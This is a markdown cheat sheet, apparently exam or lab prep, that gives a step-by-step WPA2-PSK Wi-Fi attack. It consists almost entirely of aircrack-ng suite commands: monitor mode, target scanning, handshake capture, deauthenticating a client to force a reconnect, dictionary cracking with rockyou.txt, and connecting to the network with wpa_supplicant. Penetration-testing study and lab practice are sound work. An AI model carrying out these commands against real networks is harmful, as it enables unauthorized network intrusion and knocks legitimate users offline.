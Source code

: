 
# 🛡️ WPA2-PSK Attack – SSH-only, exam-style flow

## ⚙️ 0. Initial Setup

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

Monitor mode enabled on `wlan0mon`.

---

## 🔍 1. Scan for Targets

```bash
sudo airodump-ng wlan0mon
```

Identify:
- `BSSID`
- `Channel`
- `ESSID`
- Associated `Clients`

---

## 🎯 2. Capture Handshake

```bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w wpa2-crack wlan0mon
```

Keep this running. You're sniffing for the WPA handshake.

---

## 💣 3. Force Handshake with Deauth

```bash
sudo aireplay-ng --deauth 5 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

This forces the client to disconnect and reconnect, generating the handshake.

---

## 👁️ 4. Confirm Handshake

Look for:

```
WPA handshake: <BSSID>
```

in the top-right corner of `airodump-ng`.

---

## 🔓 5. Crack the Password

```bash
aircrack-ng -w rockyou.txt -b <BSSID> wpa2-crack-01.cap
```

Substitute `rockyou.txt` with your wordlist path.

---

## 🔌 6. Connect Using wpa_supplicant

### wpa2.conf

```ini
network={
    ssid="wifi-mobile"
    psk="your_cracked_password"
    key_mgmt=WPA-PSK
}
```

### Launch connection

```bash
sudo airmon-ng stop wlan0mon
sudo wpa_supplicant -i wlan0 -c wpa2.conf -D nl80211 -B
sudo dhclient wlan0
```

---

## ✅ 7. Confirm Network Access

```bash
ip a
ping 192.168.2.1
```

Look for an assigned `inet` IP like:

```
inet 192.168.2.48/24 brd 192.168.2.255 scope global dynamic wlan0
```

You're inside the network.

---

Next up: PMKID attacks, hashcat brute force, or rogue APs. Your call.
